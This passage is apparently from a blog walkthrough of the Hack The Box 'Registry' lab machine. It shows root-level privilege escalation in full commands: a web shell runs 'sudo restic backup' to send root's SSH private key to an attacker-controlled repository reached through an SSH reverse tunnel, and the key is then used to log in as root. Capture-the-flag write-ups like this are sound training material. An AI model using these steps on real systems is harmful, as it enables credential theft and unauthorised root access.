However, the backup repository was not initialized. I installed restic locally and used the following command to create an empty repository:


root@fury-battlestation:~/htb/blog/registry# restic init -r rest:http://localhost:1337/
enter password for new repository: 
enter password again: 
created restic repository c2f11fd17a at rest:http://localhost:1337/

Please note that knowledge of your password is required to access
the repository. Losing your password means that your data is
irrecoverably lost.
root@fury-battlestation:~/htb/blog/registry#



In case you are wondering, the password is simply ‘backup’. I had to access local port 1337 on a remote server, so I used SSH remote port forwarding:


ssh -R 1337:localhost:1337 bolt@registry.htb -i ~/.ssh/bolt_registry



The next step was to backup root’s SSH key to the remote repository (I first backed up root.txt, but then I realised I could get a shell by obtaining root’s id_rsa file). Unfortunately, restic does not allow users to provide passwords via command lines, and I didn’t have an interactive tty to write the password. The solution was simple: use the -p switch, which loads the password from a specified file. I created that file using the following commands:


bolt@bolt:~$ cd /tmp
bolt@bolt:/tmp$ echo 'backup' > pass.txt
bolt@bolt:/tmp$ chmod 777 pass.txt 
bolt@bolt:/tmp$ ls -lah pass.txt 
-rwxrwxrwx 1 bolt bolt 7 Dec 28 19:33 pass.txt
bolt@bolt:/tmp$ 



After creating the required file, I just had to run the following command as www-data:


sudo restic backup -r rest:http://127.0.0.1:1337/ /root/.ssh/id_rsa -p /tmp/pass.txt



(of course, I used my .php shell 🙂 )


scan [/root/.ssh/id_rsa]
[0:00] 0 directories, 1 files, 1.636 KiB
scanned 0 directories, 1 files in 0:00
[0:00] 100.00%  1.636 KiB / 1.636 KiB  1 / 1 items  0 errors  ETA 0:00 

duration: 0:00
snapshot a7563da3 saved



The file was succesfully backed up, so I retrieved it on my local machine and used it to connect as root:


root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# restic -r rest:http://localhost:1337 restore latest --target ./restored
enter password for repository: 
repository c2f11fd1 opened successfully, password is correct
created new cache in /root/.cache/restic
restoring <Snapshot a7563da3 of [/root/.ssh/id_rsa] at 2019-12-28 19:34:16.462257183 +0000 UTC by root@bolt> to ./restored
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cp ./restored/id_rsa ~/.ssh/bolt_root
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# chmod 600 ~/.ssh/bolt_root 
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# ssh root@registry.htb -i ~/.ssh/bolt_root 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-65-generic x86_64)

  System information as of Sat Dec 28 19:37:55 UTC 2019

  System load:  0.0               Users logged in:                1
  Usage of /:   6.0% of 61.80GB   IP address for eth0:            10.10.10.159
  Memory usage: 37%               IP address for br-1bad9bd75d17: 172.18.0.1
  Swap usage:   0%                IP address for docker0:         172.17.0.1
  Processes:    165
Last login: Mon Oct 21 09:53:48 2019
root@bolt:~# wc -c ~/root.txt 
33 /root/root.txt
root@bolt:~#



The root proof starts with ‘nt’ 😉

If you liked this post and want to support me, please [follow me on Twitter](https://twitter.com/yakuhito) 🙂

Until next time, hack the world.

yakuhito, over.

